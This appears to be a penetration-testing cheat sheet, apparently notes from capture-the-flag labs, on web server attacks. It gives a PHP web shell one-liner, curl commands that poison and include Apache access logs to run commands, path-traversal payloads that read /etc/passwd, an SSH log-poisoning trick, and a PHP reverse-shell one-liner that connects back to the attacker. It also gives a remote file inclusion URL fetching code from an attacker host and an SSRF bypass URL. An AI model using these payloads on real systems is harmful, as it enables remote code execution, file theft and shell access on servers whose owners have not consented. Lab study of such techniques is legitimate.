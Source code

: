 #### Contaminating Log Files

nc $ip port

```
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

```
curl http://$ip/include.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

```
curl http://$ip/include.php?file=/var/log/apache2/access.log&cmd=ifconfig
```

#### File inclusion

Local File inclusion

* `../../etc/passwd`
* `../../etc/passwd%00`
* `../../etc/passwd0x00`
* `....//....//....//....//....//etc/passwd`
* `/etc/passwd/.`
* `/./././././././././././etc/passwd`
* if you are able to view the ssh log `/var/log/auth.log` try "poisoning" the log by ssh as `ssh '<?php system($_GET['cmd']); ?>'@targetip` this entry may or may not the user in the logs but still proceed with `php -r '$sock=fsockopen("yourIP",port);exec("/bin/sh -i <&3 >&3 2>&3");'` <--- Url encode this with burp
* if ftp allows uploading of files you can call the script to gain a php reverse shell

Remote File inclusion -- One requirement for RFI is that the `allow_url_fopen` option needs to be `on` `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.php`

#### Server-Side Request Forgery (SSRF)

```
A successful SSRF attack can result in any of the following:    
1. Access to unauthorised areas.
2. Access to customer/organisational data.
3. Ability to Scale to internal networks.
4. Reveal authentication tokens/credentials.
```

* `https://website.thm/item/2?server=server.website.thm/flag?id=9&x=` is equal to `https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2`
*   Finding an SSRF

    When a full URL is used in a parameter in the address bar:

    ![](2022-02-12-01-19-24.png)

    A hidden field in a form:

    ![](2022-02-12-01-18-36.png)

